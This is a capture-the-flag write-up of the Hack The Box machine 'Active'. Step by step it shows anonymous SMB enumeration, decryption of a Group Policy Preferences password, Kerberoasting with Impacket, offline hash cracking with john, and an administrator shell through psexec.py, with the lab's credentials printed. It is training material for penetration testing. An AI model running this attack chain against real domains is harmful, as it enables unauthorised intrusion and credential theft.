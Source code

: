 ```yaml
---
layout: post
title: HTB Machine - Active
subtitle: Writeup
cover-img: https://www.hackthebox.com/storage/avatars/5837ac5e28291146a9f2a8a015540c28.png
thumbnail-img: https://www.hackthebox.com/storage/avatars/5837ac5e28291146a9f2a8a015540c28.png
share-img: https://www.hackthebox.com/storage/avatars/5837ac5e28291146a9f2a8a015540c28.png
tags: [ HTB, Hack the Box,Kerberos,Network,Vulnerability Assessment,Active Directory,Outdated Software,Security Tools,Authentication,SMB,Impacket,Reconnaissance,Password Cracking,Kerberoasting,Default Credentials,Weak Permissions,Anonymous/Guest Access]
---
```


#### Scanning the target we identify that is a Domain controller. Then we proceed to enumerate the shares with smbclient, we do this with a null session since we dont have credentials (flag -N)
```bash
smbclient -L 10.10.10.100 -N
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
```

### we dont know to which folders we have permissions to. We can see permissions using smbmap with -H flag. Note: we placed the IP inside the etc/hosts file with the name active.htb.

```bash
smbmap -H active.htb                                  
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	NO ACCESS	Remote IPC
	NETLOGON                                          	NO ACCESS	Logon server share 
	Replication                                       	READ ONLY	
	SYSVOL                                            	NO ACCESS	Logon server share 
	Users                                             	NO ACCESS	
```
### We keep diggin into the directory this time using the flag -r (folderpath). We get to a point where we see folders that usually are part of the Sysvol directory (which we dont have access too), but this could be perhaps a copy?

```bash
smbmap  -H active.htb -r Replication/active.htb                                         
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	Replication                                       	READ ONLY	
	.\Replicationactive.htb\*
	dr--r--r--                0 Sat Jul 21 12:37:44 2018	.
	dr--r--r--                0 Sat Jul 21 12:37:44 2018	..
	dr--r--r--                0 Sat Jul 21 12:37:44 2018	DfsrPrivate
	dr--r--r--                0 Sat Jul 21 12:37:44 2018	Policies
	dr--r--r--                0 Sat Jul 21 12:37:44 2018	scripts
```
### We continue enumerating the folders. In one of them there is a Groups.xml file that is very interesting. We donwload it to our attack machine. 

```bash
smbmap  -H active.htb --download Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
```
### there is a password that is not in clear text. But Microsoft at some point gave away the AES key to encrypt such passwords. There is a ruby utility called gpp-decrypt that uses that key to decrypt the password. We could try it in our hash. 

```bash
gpp-decrypt 'hash_value'
```
### then we got our clear text pass: GPPstillStandingStrong2k18 for the user we find in the XML file too SVC_TGS. We can corroborate this with crackmapexec, if it places a + the user and pass are valid. Then we could list the --shares this user could access. 

```bash
❯ crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p GPPstillStandingStrong2k18 --shares
SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18 
SMB         10.10.10.100    445    DC               [+] Enumerated shares
SMB         10.10.10.100    445    DC               Share           Permissions     Remark
SMB         10.10.10.100    445    DC               -----           -----------     ------
SMB         10.10.10.100    445    DC               ADMIN$                          Remote Admin
SMB         10.10.10.100    445    DC               C$                              Default share
SMB         10.10.10.100    445    DC               IPC$                            Remote IPC
SMB         10.10.10.100    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.10.100    445    DC               Replication     READ            
SMB         10.10.10.100    445    DC               SYSVOL          READ            Logon server share 
SMB         10.10.10.100    445    DC               Users           READ            
```

### again we use smbmap to enumerate the Users folders and go for the user flag in the usual spot. 

```bash
smbmap -H active.htb -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -r Users/SVC_TGS/Desktop
smbmap -H active.htb -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --download Users/SVC_TGS/Desktop/user.txt
```
### we can try to list all users in the directory but we need valid credentials for that, so we use the ones we found to list the users, groups and descriptions.

```bash
rpcclient -U "" 10.10.10.100 -N -c 'enumdomusers'
Error was NT_STATUS_ACCESS_DENIED

rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c 'enumdomusers'
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[SVC_TGS] rid:[0x44f]

rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c 'enumdomgroups'
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[DnsUpdateProxy] rid:[0x44e]

rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c 'querygroupmem 0x200'
	rid:[0x1f4] attr:[0x7]
	
rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c 'queryuser 0x1f4'
	User Name   :	Administrator
	Full Name   :
	.
	.(redacted)

rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c 'querydispinfo'
index: 0xdea RID: 0x1f4 acb: 0x00000210 Account: Administrator	Name: (null)	Desc: Built-in account for administering the computer/domain
index: 0xdeb RID: 0x1f5 acb: 0x00000215 Account: Guest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
index: 0xe19 RID: 0x1f6 acb: 0x00020011 Account: krbtgt	Name: (null)	Desc: Key Distribution Center Service Account
index: 0xeb2 RID: 0x44f acb: 0x00000210 Account: SVC_TGS	Name: SVC_TGS	Desc: (null)
```
### we can use the rpcenum tool from S4vitar. We need to change the parameters (find replace) the -U to place the credentials and delete the -N. We give execution permissions to the script and run it with the flags we want to check. Basically if we dont want to remember all the commands above it will do the same thing.

```bash
sudo ./rpcenum -e DGroups -i active.htb
```
### ASREPRoast attack: if we didnt have a password we could try to get hashes by requesting a TGT. Basically it is an attack against Kerberos that allows password hashes to be retrieved for users and do not require pre-authentication. If the user has “Do not use Kerberos pre-authentication” enabled, then an attacker can recover a Kerberos AS-REP encrypted with the users RC4-HMAC’d password and he can attempt to crack this ticket offline. So we list our users and place them inside a txt file to use the GetNPUsers tool.

```bash
GetNPUsers.py -no-pass -usersfile users.txt active.htb/
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User SVC_TGS doesn't have UF_DONT_REQUIRE_PREAUTH set
```
### no luck with this. If we need to brute force users in the DC we could use kerbrute. WE have to synchronize the clock with the DC, we do this with "ntpdate 10.10.10.100" that way our machine takes the time from the DC. Being out of sync can cause some issues. i

```bash
./kerbrute_linux_amd64 userenum --dc 10.10.10.100 -d active.htb /usr/share/seclists/Usernames/Names/names.txt
```
### Then we query target domain for SPNs that are running under a user account. We will neet to check if we can get a TGS for the user. if the user has CIFS.

```bash
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40.351723  2023-04-27 15:24:30.307759 
```
### the user is admin so we could send a request and get a hash that we will try to crack offline

   
```bash
❯ GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40.351723  2023-04-27 15:24:30.307759             



[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$5fe8f4270ad1567f0459ff6126e6a02f$9c05cff6a9b4533e77ded9d5632ef98a1940675102e43d8839f0add2c5d2f068b872f2bec193be6d569c240dfe01c82ec9690ba698e7f3796c316ad2248c592c384e809080..(REDACTED)
```
### we place in a file hash and crack with john

```bash
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ticketmaster1968 (?)     
1g 0:00:00:05 DONE (2023-04-28 07:48) 0.1677g/s 1768Kp/s 1768Kc/s 1768KC/s Tiffani1432..Thrash1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
### Validate credentials: 

```bash
crackmapexec smb 10.10.10.100 -u 'Administrator' -p 'Ticketmaster1968'
SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\Administrator:Ticketmaster1968 (Pwn3d!)
```
### then we can login
```bash
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100 cmd.exe   
```
### and search for the flag

```bash
type C:\Users\Administrator\Desktop\root.txt
```
